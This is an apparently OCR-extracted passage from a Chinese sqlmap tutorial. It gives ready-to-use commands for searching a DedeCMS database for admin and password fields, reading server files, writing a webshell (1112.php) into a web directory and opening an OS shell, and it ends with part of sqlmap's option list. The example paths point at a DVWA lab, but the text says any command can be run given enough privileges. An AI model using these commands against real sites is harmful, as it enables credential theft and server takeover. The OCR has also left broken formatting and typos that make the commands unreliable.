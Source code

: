 指定目标站点D:/www/

输入ipconfig/all

创建用户和删除用户

只要权限足够大，你可以输入使用任何命令。

其他命令参考下面：

从数据库中搜索字段


`sqlmap` `-``r “c``:``\tools\request.txt” –dbms mysql` `-``D dedecms –search` `-``C admin``,``password`

在dedecms数据库中搜索字段admin或者password。

读取与写入文件

首先找需要网站的物理路径，其次需要有可写或可读权限。

–file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）

–file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp\_shell）

–file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径

示例：

1

`sqlmap` `-``r “c``:``\request.txt”` `-``p` `id` `–dbms mysql –``file``-``dest “e``:``\php\htdocs\dvwa\inc\include\``1.``php” –``file``-``write` `“f``:``\webshell\``1112.``php”`

使用shell命令：


`sqlmap` `-``r “c``:``\tools\request.txt”` `-``p` `id` `–dms mysql –os``-``shell`

接下来指定网站可写目录：

“E:\\php\\htdocs\\dvwa”

注：mysql不支持列目录，仅支持读取单个文件。sqlserver可以列目录，不能读写文件，但需要一个（xp\_dirtree函数）

sqlmap详细命令：


    
#
```
1.  `用法：python sqlmap.py [选项]`

3.  `选项：`
4.  `-h, --help 显示基本帮助信息并退出`
5.  `-hh 显示高级帮助信息并退出`
6.  `--version 显示程序版本信息并退出`
7.  `-v VERBOSE 输出信息详细程度级别：0-6（默认为 1）`

```

### 目标
```
9.  `目标：`
10.  `至少提供一个以下选项以指定目标`

12.  `-d DIRECT 直接连接数据库`
13.  `-u URL, --url=URL 目标 URL（例如："http://www.site.com/vuln.php?id=1"）`
14.  `-l LOGFILE 从 Burp 或 WebScarab 代理的日志文件中解析目标地址`
15.  `-m BULKFILE 从文本文件中获取批量目标`
16.  `-r REQUESTFILE 从文件中读取 HTTP 请求`
17.  `-g GOOGLEDORK 使用 Google dork 结果作为目标`
18.  `-c CONFIGFILE 从 INI 配置文件中加载选项`
```
